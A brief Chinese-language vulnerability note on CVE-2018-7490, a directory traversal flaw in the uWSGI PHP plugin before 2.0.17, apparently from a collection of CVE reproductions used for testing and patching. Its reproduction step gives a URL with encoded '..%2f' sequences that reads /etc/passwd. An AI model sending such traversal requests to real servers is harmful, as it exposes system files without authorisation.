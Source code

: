 （CVE-2018-7490）uWSGI PHP目录穿越漏洞
======================================

一、漏洞简介
------------

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI
2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

二、漏洞影响
------------

uWSGI \< 2.0.17

三、复现过程
------------

访问`http://www.0-sec.org:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![1.png](./resource/(CVE-2018-7490)uWSGIPHP目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/CVE-2018-7490/README.zh-cn.md
